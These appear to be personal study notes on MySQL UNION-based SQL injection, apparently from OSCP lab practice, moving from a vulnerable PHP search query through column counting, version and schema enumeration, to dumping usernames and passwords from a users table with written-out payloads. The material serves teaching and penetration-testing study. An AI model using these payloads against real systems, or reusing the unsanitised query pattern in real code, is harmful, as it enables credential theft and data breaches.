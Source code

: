 
# MySQL UNION Attack
When an attacker uses the [SQL](/coding/languages/SQL.md) `UNION` keyword to retrieve data from more than one table in the database. This vuln should be tested for whenever a [SQLi](SQLi.md) resultes in the returned balue *being displayed by the application* in response. 
## UNION keyword
In SQL the `UNION` keyword allows you to execute more than one `SELECT` query and append the results to the original query. The injected `UNION` query has to have the *same number* of columns as the original query and the data types need to be *compatible* with each other.
### Attack requirements
1. The # and order of columns which appear in all SELECT statements must be the same
2. The data types of the columns must be the same or compatible
#### Sample Tables:
```sql
DROP TABLE IF EXISTS t1;
DROP TABLE IF EXISTS t2;

CREATE TABLE t1 (
    id INT PRIMARY KEY
);

CREATE TABLE t2 (
    id INT PRIMARY KEY
);

INSERT INTO t1 VALUES (1),(2),(3);
INSERT INTO t2 VALUES (2),(3),(4);
```
##### Return result sets from `t1` and `t2`
```sql
-- Query:
SELECT id FROM t1 UNION SELECT id FROM t2;

-- Output:
+----+
| id |
+----+
|  1 |
|  2 |
|  3 |
|  4 |
+----+
4 rows in set (0.00 sec)
```
## Example
If a website has the following pre-configured SQL query:
```php
$query = "SELECT * from customers where name like '".
$_POST["search_input"]."%'";)
```
This query fetches all the records from a table called `customers` and uses the `like` keyword to search it for any name values containing the input (supplied by the user which is followed by zero or any number of characters (specified by `%`)). The percent sign `%` is a *wildcard* character used with the `like` keyword. It represents 1, zero, or multiple characters in a text or string search.

For this example, pretend that the vulnerable web application has a customer search portal which will return names of customer's along with their phone number, address, and country. Before attacking the portal with a UNION attack we need to know *the exact number of columns* present in the table. Even if the web application is showing us four columns (name, phone, address, country) it may not be showing us *all of the columns* in the actual table.
### Discovering Number of Columns
To discover the exact number of columns in the table, we can inject the following query:
```sql
' ORDER BY 1-- //
```
This statement will cause the results to be ordered by a specific column *but will fail if the column doesn't exist*. For example, if the table has five columns, then `ORDER BY 6` will return an error since there isn't a sixth column to return. The error will likely read something like:
```sql
Unknown column '6' in 'order clause'
```
Now we know there are 5 total columns in the table. Next we need to determine which ones are displayed normally. For example, entering `' order by 99-- //` into the Username field causes this web application to respond with:
![](../../../../OSCP/hidden/oscp-hidden-pics/Pasted%20image%2020250415140507.png)
### Discovering Which Columns are Displayed
To discover which columns are normally displayed, we can use the `UNION` keyword:
```sql
%' UNION SELECT 'a1', 'a2', 'a3', 'a4', 'a5' -- //
```
Using the `%` and a single quote will allow us to retrieve *all of the data* from the `customers` table. The `%'` will *close off the search parameter* in the web application's code (see above). 
![](../../../cybersecurity-pics/UNION-attack-1.png)
The query essentially appended the original query with 5 values that we created, which you can see at the bottom of each column. Now we know that the first column in the table is the only column we can't see. This is normal because the first column is *usually reserved for each item's ID*. 
### Enumerating with UNION
Now we can use a UNION attack to enumerate more information from the database and MySQL service running it:
```sql
%' UNION SELECT database(), user(), @@version, null, null -- //
```
In this injection, we're asking for 5 pieces of information to be appended to the original query. `database()` should give us the current database's name. `user()` should return the current user. `@@version` should tell us the version of MySQL running. Then we give two `null` values as placeholders (since the UNION query statement has to return the same number of columns as the query its appended to).
![](../../../cybersecurity-pics/UNION-attack-2.png)
The first column (where we expect to see `database`) does not show, so we need to fix our query and put the `database()` function in one of the `null` positions instead. Additionally, we don't need the `%` sign anymore since we've figured out how many columns there are and which ones are showing:
```sql
' UNION SELECT null, null, database(), user(), @@version -- //
```
Now, we'll only see the results from our appended query instead of the entire database (since we took out the `%`):
![](../../../cybersecurity-pics/UNION-attack-3.png)
### Enumerating with UNION and the Information Schema
Now that we've confirmed the web app is vulnerable to UNION attacks, we can leverage this vuln to verify whether *other tables* are present in the database. We can do this by enumerating the database's *[`information_schema`](../../../../CLI-tools/linux/mysql.md#`information_schema`)* (a table in every [MySQL](../../../../CLI-tools/linux/mysql.md) server which holds metadata about the MySQL server). 

We can use `information_schema` to check its `columns` table. This will tell us what columns exist in each table on the server. In our injected query, we'll ask for each table's name, column names, and table schema. We'll leave the first and fifth items set to null:
```sql
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
```
![](../../../cybersecurity-pics/UNION-attack-4.png)
The output tells us that the database `offsec` has two tables, `users` and `customers`. The `customers` table has 5 columns (as we already determined), and the `users` table has 4: `id`, `username`, `password`,  and `description`.
### Using UNION to Dump Additional Databases
Now we can craft an injected query to dump the `users` table, since we obviously want all of the user's paswords!
```sql
' UNION SELECT null, username, password, description, null FROM users -- //
```
![](../../../cybersecurity-pics/UNION-attack-5.png)


> [!Resources]
> - [My SQL Tutorial: Union Attacks](https://www.mysqltutorial.org/sql-union-mysql.aspx/)
> - [Port Swigger](https://portswigger.net/web-security/sql-injection/union-attacks)
> - [MySQL Documentation](https://dev.mysql.com/doc/refman/8.0/en/information-schema-introduction.html)
> - [Invicti: SQLi Cheat Sheet](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/#UnionInjections)

